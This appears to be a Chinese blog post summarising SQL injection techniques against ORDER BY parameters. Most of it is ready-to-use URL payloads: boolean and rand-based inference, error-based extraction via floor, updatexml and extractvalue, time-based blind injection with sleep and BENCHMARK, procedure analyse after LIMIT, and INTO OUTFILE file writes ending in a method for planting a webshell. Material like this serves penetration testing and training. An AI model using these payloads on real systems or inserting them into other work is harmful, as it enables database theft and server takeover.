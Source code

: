 ```yaml
---
layout: post
title:  "SQL注入之order by注入总结"
date:   2018-11-28 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


## 0x00 order by 注入是什么

order by 注入是指其后面的参数是可控的，例如：

```sql
select * from goods order by $_GET['id']
```

order by 不同于我们在where后的注入点，不能使用union等注入。

## 0x01 简单的注入判断

有时候，我们可以利用order by子句进行快速猜解表中的列数，再配合`union select`语句进行回显。

例如：

```sql
id = 1 order by 3 // 不报错
id = 1 order by 4 //报错
```

说明前面的字段数为3。

## 0x02 构造payload

**url:**

```url
http://vunl.com/?sort=1
```

我们可以直接构`？sort=`后面一个参数：

* 直接添加注入语句，`？sort=(sql语句)`
* 利用一些函数，rand函数，ifnull。 `？sort=rand(sql语句)`
* 利用 `and`，例如`?sort=1 and (sql语句)`

### 1、直接添加语句

```sql
/?sort=IF(1=1,name,price) 通过name字段排序
/?sort=IF(1=2,name,price) 通过price字段排序
```

```sql
/?order=(CASE+WHEN+(1=1)+THEN+name+ELSE+price+END) 通过name字段排序
/?order=(CASE+WHEN+(1=2)+THEN+name+ELSE+price+END) 通过price字段排序
```

```sql
/?order=IFNULL(NULL,price) 通过price字段排序
/?order=IFNULL(NULL,name) 通过name字段排序
```

rand(true) 和 rand(false)的结果是不一样的。

```
/?sort=rand(1=1)
/?sort=rand(1=2)
/?sort=rand(ascii(left(database(),1))=115)
```

### 2、利用报错

**floor函数**

```
sort=(select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))
```

**返回多条记录**

```
/?sort=IF(1=1,1,(select+1+union+select+2)) 正确
/?sort=IF(1=2,1,(select+1+union+select+2)) 错误
/?sort=IF(1=1,1,(select+1+from+information_schema.tables)) 正常
/?sort=IF(1=2,1,(select+1+from+information_schema.tables)) 错误
```

**利用regexp**

```
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误
```

**利用updatexml**

```
/?sort=updatexml(1,if(1=1,1,user()),1) 正确
/?sort=updatexml(1,if(1=2,1,user()),1) 错误
```

**利用extractvalue**

```
/?sort=extractvalue(1,if(1=1,1,user())) 正确
/?sort=extractvalue(1,if(1=2,1,user())) 错误
```

###3、利用延时

```
?sort= (select if(substr(current,1,1)=char(115),
BENCHMARK(50000000,md5('1')),null) from (select database() as curr
ent) as tb1)
```

```sql
?sort=if(ascii(substr(database(),1,1))=116,0,sleep(5))
```

### 4、procedure anaylse 参数后注入

利用procedure analyse 参数，我们可以执行报错注入。同时，在procedure analyse 和order by 之间可以存在limit 参数，我们在实际应用中，往往也可能会存在limit 后的注入，可以利用procedure analyse 进行注入。

```sql
?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)
```

### 5、导入导出文件 into outfile参数

```sql
?sort=1 into outfile "C:\phpStudy\PHPTutorial\WWW\sqli\Less-46\hack.txt"
```

可以利用`lines terminated by` 上传webshell

```sql
into outtfile c:\\wamp\\www\\sqllib\\test1.txt lines terminated by 0x(网马进行16进制转换)
```


